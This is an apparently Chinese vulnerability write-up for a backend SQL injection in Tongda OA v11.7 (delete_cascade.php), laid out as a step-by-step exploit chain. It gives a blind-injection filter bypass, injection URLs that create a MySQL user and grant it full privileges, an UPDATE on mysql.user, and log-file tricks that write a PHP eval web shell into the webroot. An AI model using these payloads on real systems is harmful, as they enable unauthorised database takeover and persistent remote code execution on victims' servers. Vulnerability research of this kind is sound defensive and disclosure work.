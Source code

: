 # 通达OA v11.7 delete_cascade.php 后台SQL注入

## 漏洞描述

通达OA v11.7后台存在SQL注入，可通过此漏洞写入恶意后门文件攻击目标服务器

参考阅读：

- [通达OA v11.7后台SQL注入到RCE[0day\]](https://mp.weixin.qq.com/s/8rvIT1y_odN2obJ1yAvLbw)

## 漏洞影响

```
通达OA v11.7
```

## 环境搭建

[环境地址](https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe)

## 漏洞复现

在 **general/hr/manage/query/delete_cascade.php** 文件中

![image-20220209110843192](images/202202091108270.png)

首先判断`$condition_cascade`是否为空，如果不为空，则将其中的`\'`替换为`'`。为什么要这样替换呢，主要是因为V11.7版本中，注册变量时考虑了安全问题，将用户输入的字符用`addslashes`函数进行保护，如下：

**inc/common.inc.php** 代码

![image-20220209110858090](images/202202091108141.png)

使用盲注对SQL注入进行测试

![image-20220209110914705](images/202202091109818.png)

触发了通达OA的SQL注入拦截

**inc/conn.php**文件中找到过滤机制如下:

![image-20220209110944424](images/202202091109512.png)

其过滤了一些字符，但是并非无法绕过，盲注的核心是：`substr、if`等函数，均未被过滤，那么只要构造MySQL报错即可配合`if`函数进行盲注了，翻看局外人师傅在补天白帽大会上的分享，发现`power(9999,99)`也可以使数据库报错，所以构造语句：

```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```

![image-20220209111011701](images/202202091110796.png)



![image-20220209111026602](images/202202091110677.png)

添加SQL数据库用户

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

访问 **http://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*

进入 **Myoa/mysql5/bin** 目录 执行 **mysql -upeiqi -p** 输入密码查询所有用户

![image-20220209111049110](images/202202091110154.png)

发现成功执行添加一个账户

然后该用户是对mysql数据库拥有所有权限的,然后给自己加权限：

```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```

![image-20220209111109474](images/202202091111720.png)

然后用注入点刷新权限，因为该用户是没有刷新权限的权限的：`general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`这样就拥有了所有权限

![image-20220209111122226](images/202202091111343.png)

登录如果失败，执行

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

利用漏洞写shell

```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php eval($_POST[x]);?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php eval($_POST[x]);?>';
show variables like '%general%';
```

上传大马

![image-20220209111135417](images/202202091111491.png)

